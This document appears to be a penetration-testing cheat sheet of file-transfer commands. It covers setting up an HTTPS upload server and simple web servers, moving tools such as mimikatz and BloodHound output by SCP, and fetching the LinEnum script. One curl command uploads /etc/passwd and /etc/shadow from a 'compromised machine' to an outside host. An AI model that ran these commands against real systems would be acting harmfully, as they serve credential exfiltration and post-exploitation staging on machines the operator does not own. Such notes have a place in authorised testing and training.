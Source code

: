 #### Download an upload server
```Shell
python3 -m pip install --user uploadserver
```

#### Creates a self-signed certificate
```Shell
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
Recommend not hosting this in the same directory as the web server is running on

#### Start the web server over HTTPS
```Shell
python3 -m uploadserver 443 --server-certificate /root/server.pem
```

#### Upload multiple files to the compromised machine
```Shell
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

#### Create a web server with Ruby
```Shell
ruby -run -ehttpd . -p8000
```

#### Create a web server with PHP
```Shell
php -S 0.0.0.0:8000
```

#### Upload a file using SCP
```Shell
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
```

#### Download a file using SCP
```Shell
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
```


### File Transfers - via Code

#### Python 2 file download
```Shell
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Start the Python uploadserver Module
```Shell
python3 -m uploadserver
```

